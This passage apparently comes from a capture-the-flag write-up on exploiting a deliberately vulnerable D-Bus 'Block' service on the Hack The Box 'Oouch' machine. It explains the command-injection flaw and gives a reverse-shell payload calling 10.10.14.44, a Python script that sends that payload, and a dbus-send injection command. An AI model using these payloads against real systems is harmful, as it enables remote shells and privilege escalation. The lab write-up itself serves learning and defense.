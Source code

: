 As you can see, it is **connecting to a D-Bus interface** and sending to the **"Block" function** the "client\_ip".

In the other side of the D-Bus connection there is some C compiled binary running. This code is **listening** in the D-Bus connection **for IP address and is calling iptables via `system` function** to block the given IP address.\
**The call to `system` is vulnerable on purpose to command injection**, so a payload like the following one will create a reverse shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

### Exploit it

At the end of this page you can find the **complete C code of the D-Bus application**. Inside of it you can find between the lines 91-97 **how the **_**D-Bus object path**_ **and **_**interface name**_** are registered**. This information will be necessary to send information to the D-Bus connection:

```c
        /* Install the object */
        r = sd_bus_add_object_vtable(bus,
                                     &slot,
                                     "/htb/oouch/Block",  /* interface */
                                     "htb.oouch.Block",   /* service object */
                                     block_vtable,
                                     NULL);
```

Also, in line 57 you can find that **the only method registered** for this D-Bus communication is called `Block`(_**Thats why in the following section the payloads are going to be sent to the service object `htb.oouch.Block`, the interface `/htb/oouch/Block` and the method name `Block`**_):

```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```

#### Python

The following python code will send the payload to the D-Bus connection to the `Block` method via `block_iface.Block(runme)` (_note that it was extracted from the previous chunk of code_):

```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```

#### busctl and dbus-send

```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```

* `dbus-send` is a tool used to send message to “Message Bus”
* Message Bus – A software used by systems to make communications between applications easily. It’s related to Message Queue (messages are ordered in sequence) but in Message Bus the messages are sending in a subscription model and also very quick.
* “-system” tag is used to mention that it is a system message, not a session message (by default).
* “–print-reply” tag is used to print our message appropriately and receives any replies in a human-readable format.
* “–dest=Dbus-Interface-Block” The address of the Dbus interface.
* “–string:” – Type of message we like to send to the interface. There are several formats of sending messages like double, bytes, booleans, int, objpath. Out of this, the “object path” is useful when we want to send a path of a file to the Dbus interface. We can use a special file (FIFO) in this case to pass a command to interface in the name of a file. “string:;” – This is to call the object path again where we place of FIFO reverse shell file/command.